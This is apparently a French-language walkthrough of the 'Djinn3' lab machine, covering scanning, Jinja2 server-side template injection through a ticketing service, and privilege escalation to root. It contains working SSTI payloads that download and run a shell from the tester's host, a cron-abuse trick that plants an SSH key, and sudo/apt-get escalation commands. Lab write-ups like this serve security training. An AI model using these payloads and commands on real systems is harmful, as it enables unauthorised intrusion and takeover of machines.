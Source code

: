   # Djinn3

	sudo masscan -p1-65535,U:1-65535 192.168.203.102 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.203.102 -oN nmap.txt
	feroxbuster --silent -u http://192.168.203.102

	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http lighttpd 1.4.45  
	5000/tcp open http Werkzeug httpd 1.0.1 (Python 3.6.9)  
	31337/tcp open Elite? 
 	

Rien sur le site web du port 80 à part un dossier /images qui sort une erreur 403.
Sur le port 5000 on trouve un site web dédié au ticketing. On peut faire planter le serveur en allant sur des URL du type http://192.168.203.102:5000/?id=-1 ou http://192.168.203.102:5000/?id="

J'ai tenté de faire du fuzzing sur les numéros de tickets : 
	
	seq 1 9999 > nombres.txt
	ffuf -u http://192.168.203.102:5000/?id=FUZZ -w ./nombres.txt -fc 500

Sans succès, aucun ticket supplémentaire caché.

Mais le ticket 4567 mentionne un utilisateur "guest" ainsi qu'un utilisateur "Jack" et cela pourrait servir.

Sur le port 31337 il y a une interface qui demande des credentials quand on s'y connecte avec Netcat. Le couple "guest" / "guest" a fonctionné : 

	nc 192.168.203.102 31337
	username> guest  
	password> guest
	> help
	> open  
	Title: "aaaa"  
	Description: "aaaa"
	>

J'ai créé un ticket et j'ai vérifié qu'il atterrissait bien sur le système de ticketing, c'est le cas et cela ouvre la porte à beaucoup de possibilités. On sait grâce aux scans que l'interface du port 5000 est sous Python, je me suis donc d'abord orienté vers les SSTI : 

	> open  
	Title: {{1+1}}  
	Description: {{1+1}}

En allant ensuite sur http://192.168.203.102:5000/?id=1526 je vois que le titre a été recopié tel quel mais que la description a été interprétée. On tient le point d'entrée. 
</br>Voir : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution 

	> open  
	Title: id  
	Description: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

Cela fonctionne et j'obtiens le résultat prévu, plus qu'à terminer l'exploitation avec un reverse-shell : 

	> open
	Title: download
	Description: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('wget http://192.168.45.165/shell').read() }}
	> open
	Title: ls
	Description: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
	> open
	Title: chmod
	Description: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('chmod 777 ./shell').read() }}
	> open
	Title: execution
	Description: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('./shell').read() }}
	
J'obtiens la connexion et le premier flag : 

	rlwrap nc -nvlp 443
	...
	python -c 'import pty;pty.spawn("/bin/bash")'
	whoami
	cat ~/local.txt	
	
### Pivoting et élévation de privilèges : 

	wget http://192.168.45.165/linpeas.sh
	wget http://192.168.45.165/pspy64
	chmod u+x *
	./linpeas.sh > res.txt
	less -R res.txt
	./pspy64

On voit des fichiers .pyc dans le dossier parent /opt/ 

	strings .configuration.cpython-38.pyc
	strings .syncer.cpython-38.pyc

Il y a quelques morceaux intéressants dedans, qui mentionnent des fichiers de configuration avec des wildcards. Apparemment le premier script lit régulièrement des fichiers JSON dans le répertoire de Saint et dans /tmp/ : 

> /home/saint/\*.json
> </br>/tmp/\*.json

En téléchargeant et décompilant ces fichiers avec Uncompyle on y voit plus clair : 

	...
	def main():
	    """Main function
	 Cron job is going to make my work easy peasy
	 """
	    configPath = ConfigReader.set_config_path()
	    config = ConfigReader.read_config(configPath)
	    connections = checker(config)
	    if 'FTP' in connections:
	        ftpcon(config['FTP'])
	    else:
	        if 'SSH' in connections:
	            sshcon(config['SSH'])
	        else:
	            if 'URL' in connections:
	                sync(config['URL'], config['Output'])
	...	    

Il faut créer un fichier JSON dans /tmp avec notre clé SSH hébergée sur un serveur web pour que le script la copie :

	cd ~/.ssh
	python -m http.server 8000
	==========
	echo "{" >> /tmp/18-07-2020.config.json
	echo '"URL": "http://192.168.45.165:8000/id_rsa.pub",' >> /tmp/18-07-2020.config.json
	echo '"Output": "/home/saint/.ssh/authorized_keys"' >> /tmp/18-07-2020.config.json
	echo "}" >> /tmp/18-07-2020.config.json

	
Le format du nom de fichier n'est pas libre mais se déduit de l'autre fichier JSON, je n'ai pas recopié tout le code.
</br>Attendre quelques minutes pour que la tâche planifiée télécharge la clé.

	ssh saint@192.168.203.102
	sudo -l 

> User saint may run the following commands on djinn3:
> </br>&nbsp;&nbsp;&nbsp;&nbsp; (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

	sudo /usr/sbin/adduser tim --gid 0
	su tim -
	cat /etc/sudoers

On voit une ligne intéressante à la fin : 

> jason ALL=(root) PASSWD: /usr/bin/apt-get
	
Visiblement il existait un utilisateur Jason qui avait ce droit, mais il n'existe plus. Et grâce à https://gtfobins.github.io/#apt on sait que si on peut recréer cet utilisateur, on pourra devenir root : 

	sudo adduser jason --gid=0
	exit
	ssh jason@192.168.203.102
	sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
	cat /root/proof.txt
	
